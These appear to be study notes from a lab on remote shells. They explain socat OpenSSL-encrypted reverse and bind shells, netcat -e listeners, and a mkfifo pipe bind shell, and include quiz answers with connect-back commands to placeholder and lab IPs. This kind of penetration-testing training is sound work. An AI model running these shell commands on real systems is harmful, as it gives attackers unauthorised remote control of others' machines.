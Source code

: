 To connect back, we would use:
`socat OPENSSL:<LOCAL-IP>:<LOCAL-PORT>,verify=0 EXEC:/bin/bash`

The same technique would apply for a bind shell:

Target:
`socat OPENSSL-LISTEN:<PORT>,cert=shell.pem,verify=0 EXEC:cmd.exe,pipes`  

Attacker:
`socat OPENSSL:<TARGET-IP>:<TARGET-PORT>,verify=0 -`  

Again, note that even for a Windows target, the certificate must be used with the listener, so copying the PEM file across for a bind shell is required.


The following image shows an OPENSSL Reverse shell from a Linux target. The target is on the right, and the attacker is on the left:
![[Pasted image 20240817195522.png]]

Q) What is the syntax for setting up an OPENSSL-LISTENER using the tty technique from the previous task? Use port 53, and a PEM file called “encrypt.pem”.

- (normal reverse shell )
	`socat TCP-L:53 FILE:tty,raw,echo=0`  

- (encrypted using openssl )
	`socat OPENSSL-LISTEN:53,cert=encrypt.pem,verify=0 FILE:tty,raw,echo=0` 

Q) If your IP is 10.10.10.5, what syntax would you use to connect back to this listener?

- the regular syntax is this: 
  `socat TCP:10.10.10.5:53 EXEC:”bash -li”, pty, stderr, sigint, setsid, sane`

- encrypted using openssl:
  `socat OPENSSL:10.10.10.5:53,verify=0 EXEC:”bash -li”, pty, stderr, sigint, setsid, sane`

## **Common Shell Payloads**
 In some versions of netcat (including the `nc.exe` Windows version included with Kali at `/usr/share/windows-resources/binaries`, and the version used in Kali itself: `netcat-traditional`) there is a `-e` option which allows you to execute a process on connection. For example, as a listener:

	`nc -lvnp <PORT> -e /bin/bash`

Connecting to the above listener with netcat would result in a bind shell on the target. Equally, for a reverse shell, connecting back with `nc <LOCAL-IP> <PORT> -e /bin/bash` would result in a reverse shell on the target. This is however seen as being very insecure, and it is not included in most version of netcat. On Windows where a static binary is nearly always required anyway, this technique will work perfectly. On Linux, however, we would instead use this code to create a listener for a bind shell:

	mkfifo /tmp/f; nc -lvnp <PORT> < /tmp/f | /bin/sh >/tmp/f 2>&1; rm /tmp/f

The command first creates a [named pipe](https://www.linuxjournal.com/article/2156) at `/tmp/f`. It then starts a netcat listener, and connects the input of the listener to the output of the named pipe. The output of the netcat listener (i.e. the commands we send) then gets piped directly into `sh`, sending the stderr output stream into stdout, and sending stdout itself into the input of the named pipe, thus completing the circle.
